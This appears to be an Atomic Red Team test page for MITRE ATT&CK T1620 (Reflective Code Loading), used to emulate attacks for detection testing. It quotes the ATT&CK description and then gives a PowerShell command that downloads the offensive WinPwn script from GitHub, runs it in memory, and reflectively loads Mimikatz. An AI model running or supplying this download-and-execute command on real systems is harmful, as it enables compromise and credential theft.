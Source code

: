 # T1620 - Reflective Code Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1620)
<blockquote>Adversaries may reflectively load code into a process in order to conceal the execution of malicious payloads. Reflective loading involves allocating then executing payloads directly within the memory of the process, vice creating a thread or process backed by a file path on disk (e.g., [Shared Modules](https://attack.mitre.org/techniques/T1129)).

Reflectively loaded payloads may be compiled binaries, anonymous files (only present in RAM), or just snubs of fileless executable code (ex: position-independent shellcode).(Citation: Introducing Donut)(Citation: S1 Custom Shellcode Tool)(Citation: Stuart ELF Memory)(Citation: 00sec Droppers)(Citation: Mandiant BYOL) For example, the `Assembly.Load()` method executed by [PowerShell](https://attack.mitre.org/techniques/T1059/001) may be abused to load raw code into the running process.(Citation: Microsoft AssemblyLoad)

Reflective code injection is very similar to [Process Injection](https://attack.mitre.org/techniques/T1055) except that the “injection” loads code into the processes’ own memory instead of that of a separate process. Reflective loading may evade process-based detections since the execution of the arbitrary code may be masked within a legitimate or otherwise benign process. Reflectively loading payloads directly into memory may also avoid creating files or other artifacts on disk, while also enabling malware to keep these payloads encrypted (or otherwise obfuscated) until execution.(Citation: Stuart ELF Memory)(Citation: 00sec Droppers)(Citation: Intezer ACBackdoor)(Citation: S1 Old Rat New Tricks)</blockquote>

## Atomic Tests

- [Atomic Test #1 - WinPwn - Reflectively load Mimik@tz into memory](#atomic-test-1---winpwn---reflectively-load-mimiktz-into-memory)


<br/>

## Atomic Test #1 - WinPwn - Reflectively load Mimik@tz into memory
Reflectively load Mimik@tz into memory technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 56b9589c-9170-4682-8c3d-33b86ecb5119






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
mimiload -consoleoutput -noninteractive
```






<br/>
